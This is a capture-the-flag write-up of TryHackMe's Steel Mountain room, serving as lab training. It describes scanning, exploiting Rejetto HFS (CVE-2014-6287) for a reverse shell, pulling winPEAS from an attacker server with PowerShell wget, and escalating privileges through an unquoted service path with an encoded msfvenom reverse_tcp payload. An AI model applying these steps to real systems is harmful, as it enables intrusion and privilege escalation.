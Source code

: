# This is a writeup for the CTF: Steel Mountain, windows from TryHackMe.   
Name: Alexander Spiesberger    
Date: 26/01/2021   
Contact: alex.spiesberger@gmail.com  
RHOST=10.10.46.41    

![CTF](assets/1.png)

So, as the list times, we start with scanning with nmap, gobuster and nikto.  

![Scan](assets/2.png)

During the scan we can go check out the site, we can see the logo with a picture of their employee of the month.  
When inspecting the page we can see the picture source code, and we can aassume that the name in the picture is the employee.  
We can with this, respond to the first question: **Who is the employee of the month?**
   
We can then take a look at the finished nmap scan.  
We can find another web server running and with this respond to the next question: **Scan the machine with nmap. What is the other port running a web server on?**

![other web server](assets/4.png)

We can directly also respond to the next question with a quick search: **Take a look at the other web server. What file server is running?**

![file server](assets/5.png)

And the CVE for the next question also:

![Search CVE](assets/6.png)

![CVE](assets/7.png)

We will now try to use metasploit:

![msfconsole](assets/8.png)

We can now put the options that we need and run it:

![run -j](assets/9.png)

Yay! It worked, now we just have to use it:

![use session](assets/10.png)

We can then answer the final question of the second task: **Use Metasploit to get an initial shell. What is the user flag?**

![flag](assets/11.png)

We then have to upload a tool to help us escalate privileges.  
I downloaded winPEAS and also accesschk:

![winPEAS](assets/12.png)
![acesschk](assets/13.png)

We can then see that the service "AdvancedSystemCareService9" is exploitable, just use msfvenom: 

![msfvenom](assets/)

You name it Advanced.exe so when it will run, the service normally sees "Advanced" and there is a space before "SystemCare" So we will put the msfvenom output that we name "Advanced.exe" in this file, we just download it after starting a server with:

![downlaod]()

Now you have to start and stop the service with:
sc start <service>
sc stop <service>
the service here is "AdvancedSystemCareService9"

![startstop]()

Don't forget to put a nc listener before restarting the service and then let the magic happen:

![magic]()




MANUAL:

launching nmap: nmap -sC -sV -A -p- -oN initial.nmap $RHOST
gobuster: gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://$RHOST -x php,html,txt,js,css,cgi,sh,py

Found rejetto vuln -> CVE2014-6287
DL nc binary: https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe

In the Exploiit file change the ip + local port I did (4444)

![changeIPPORT]()
then launch a server (python3 -m http.server 80) Here on port 80.

then launch 2 times the exploit: python <exploit> <IP> <PORT(8080)>

![2timeslaunch]()

First it will pull the binary, then launch it again with a listener (nc -lvnp 4444) and you now have a remote shell.
We now pull winPEAS with powershell:
launch server port 80 then pull with powershell:
powershell -c wget "http://<IP>:80/winPEASany.exe" -outfile "winPEAS.exe"

![dl winpeas]()

we now can run it -> winPEAS.exe

![run winpeas]()

for the question: powershell -c get-service

We now need to exploit like previously with msfvenom, we could build it with pentest.ws and taking info with 
"powershell -c systeminfo"
But I will here take the previous msfvenom done with metasploit.
If you want to do it with pentest.ws:
payload:windows/reverse_tcp
LHOST: add your vpn IP
LPORT: Port you want to listen on (I put 443)
encoder: x86/shikata_ga_nai
extension: -f exe
output file: -o ASCService.exe

Then it is like before, pull it, in the IObit folder, name it Advanced.exe and stop/start the service with a netcat listening:

![same before]
![same before]

hope you enjoyed, contact



